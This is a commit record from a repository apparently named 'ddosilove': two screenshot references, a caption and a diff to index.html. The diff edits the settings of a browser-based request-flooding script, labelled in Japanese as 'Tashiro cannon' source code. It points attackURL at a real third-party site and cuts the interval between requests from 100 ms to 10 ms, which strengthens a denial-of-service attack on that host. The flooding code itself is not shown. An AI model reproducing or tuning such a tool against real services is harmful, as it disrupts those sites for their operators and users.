

Before and after one commit to appin-cell/ddosilove, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -7,7 +7,7 @@ https://sirakabaararagi.hatenablog.com/
 <!--■■■初期値■■■-->
 <script>
 var attackURL='https://nieru.net/echannel';
-var interval=100;//1秒=1000
+var interval=10;//1秒=1000
 </script>
 
 <!--▼▼▼田代砲ソースコード▼▼▼-->
```
